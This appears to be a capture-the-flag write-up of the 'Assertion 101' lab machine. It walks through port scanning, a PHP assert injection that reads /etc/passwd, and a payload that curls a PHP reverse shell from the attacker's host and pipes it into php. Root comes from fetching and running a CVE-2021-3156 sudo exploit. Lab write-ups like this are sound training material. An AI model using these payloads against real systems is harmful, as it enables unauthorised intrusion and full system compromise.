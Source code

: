 ```yaml
---
title: Assersion 101
categories: [Proving Grounds Play]
tags: [LFI, PrivEsc, RCE, sudo exploit]  
image:
  path: /Vulnhub-Files/img/Assersion101/Untitled.png
  alt: Assertion 101 Machine 🖥️ 
---
```



## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Assertion101]
└─$ cat Nmap_results.txt
# Nmap 7.94 scan initiated Tue Jul 18 21:13:55 2023 as: nmap -sC -sV -p- -T4 -oN Nmap_results.txt 192.168.187.94
Warning: 192.168.187.94 giving up on port because retransmission cap hit (6).
Nmap scan report for 192.168.187.94
Host is up (0.17s latency).
Not shown: 65466 closed tcp ports (reset), 67 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:ce:aa:cc:02:de:a5:a3:58:5d:da:2b:ef:54:07:f9 (RSA)
|   256 9d:3f:df:16:7a:e1:59:58:84:4a:e3:29:8f:44:87:8d (ECDSA)
|_  256 87:b5:6f:f8:21:81:d3:3b:43:d0:40:81:c0:e3:69:89 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Assertion
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
{: .nolineno}

---

## Web Enumeration ➡️

![Untitled](/Vulnhub-Files/img/Assersion101/Untitled%201.png)

Now while surfing I tried LFI on `page` parameter →

![Untitled](/Vulnhub-Files/img/Assersion101/Untitled%202.png)

Now lets try some other type of payloads ⤵️

[LFI via PHP`s ‘assert’](https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi-via-phps-assert)

![Untitled](/Vulnhub-Files/img/Assersion101/Untitled%203.png)

payload used like This →

```bash
http://192.168.152.94/index.php?page=%27%20and%20die(show_source(%27/etc/passwd%27))%20or%20%27
```
{: .nolineno}

In response I got this →

![Untitled](/Vulnhub-Files/img/Assersion101/Untitled%204.png)

Now lets use another payload for Remote Command Execution (RCE) → 

![Untitled](/Vulnhub-Files/img/Assersion101/Untitled%205.png)

Lets try reverse shell code →

```bash
http://192.168.152.94/index.php?page=' and die(system("curl http://192.168.45.152/shell.php|php")) or '
```
{: .nolineno}

In response to that I got the shell →

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Assertion101]
└─$ nc -lvnp 4444       
listening on [any] 4444 ...

connect to [192.168.45.152] from (UNKNOWN) [192.168.152.94] 54592
Linux assertion 4.15.0-74-generic #84-Ubuntu SMP Thu Dec 19 08:06:28 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 17:41:39 up 50 min,  0 users,  load average: 0.00, 0.00, 0.11
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: cant access tty; job control turned off
$ $ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@assertion:/$ whoami
whoami
www-data
www-data@assertion:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@assertion:/$
```
{: .nolineno}

Now I checked the sudo version and then I exploited the vulnerability of **[CVE-2021-3156 (Sudo Baron Samedit)](https://github.com/worawit/CVE-2021-3156#cve-2021-3156-sudo-baron-samedit)**

```bash
www-data@assertion:/home$ sudo -V
sudo -V
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
www-data@assertion:/home$ cd /tmp
cd /tmp
www-data@assertion:/tmp$ wget http://192.168.45.152/exploit_nss.py
wget http://192.168.45.152/exploit_nss.py
--2023-10-09 17:46:10--  http://192.168.45.152/exploit_nss.py
Connecting to 192.168.45.152:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8179 (8.0K) [text/x-python]
Saving to: 'exploit_nss.py'

exploit_nss.py        0%[                    ]       0  --.-KB/exploit_nss.py      100%[===================>]   7.99K  --.-KB/s    in 0.003s  

2023-10-09 17:46:11 (2.95 MB/s) - 'exploit_nss.py' saved [8179/8179]

www-data@assertion:/tmp$ 
www-data@assertion:/tmp$ chmod +x exploit_nss.py	
chmod +x exploit_nss.py 
www-data@assertion:/tmp$ ls -al
ls -al
total 16
drwxrwxrwt  2 root     root     4096 Oct  9 17:46 .
drwxr-xr-x 26 root     root     4096 Sep 14  2020 ..
-rwxrwxrwx  1 www-data www-data 8179 Jun 22 10:25 exploit_nss.py
prw-r--r--  1 www-data www-data    0 Oct  9 17:24 f
www-data@assertion:/tmp$ python3 exploit_nss.py
python3 exploit_nss.py
# /bin/bash -i
/bin/bash -i
root@assertion:/tmp# whoami
whoami
root
root@assertion:/tmp# id
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
root@assertion:/tmp# cd /root
cd /root
root@assertion:/root# ls -al
ls -al
total 36
drwx------  5 root root 4096 Oct  9 16:54 .
drwxr-xr-x 26 root root 4096 Sep 14  2020 ..
lrwxrwxrwx  1 root root    9 Jan 16  2020 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  3 root root 4096 Jan 16  2020 .cache
drwx------  3 root root 4096 Jan 16  2020 .gnupg
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  2 root root 4096 Jan 16  2020 .ssh
-rw-------  1 root root    0 Sep  8  2020 .viminfo
-rw-r--r--  1 root root   33 Oct  9 16:54 proof.txt
-rw-r--r--  1 root root   32 Sep  8  2020 root.txt
root@assertion:/root# cat root.txt
cat root.txt
Your flag is in another file...
root@assertion:/root# cat proof.txt
cat proof.txt
FLAGFLAGFLAGFLAGFLAG
root@assertion:/root# cd /
root@assertion:/# find / -name local.txt 2>/dev/null
find / -name local.txt 2>/dev/null
/var/www/local.txt
root@assertion:/# cat /var/www/local.txt
cat /var/www/local.txt
FLAGFLAGFLAGFLAGFLAG
root@assertion:/# ifconfig
ifconfig
ens192: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.152.94  netmask 255.255.255.0  broadcast 192.168.152.255
        inet6 fe80::250:56ff:feba:8eed  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:ba:8e:ed  txqueuelen 1000  (Ethernet)
        RX packets 1903  bytes 201740 (201.7 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 2063  bytes 2686114 (2.6 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 786  bytes 61626 (61.6 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 786  bytes 61626 (61.6 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

root@assertion:/#
```
{: .nolineno}

I am root now I can access all the flags !!

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }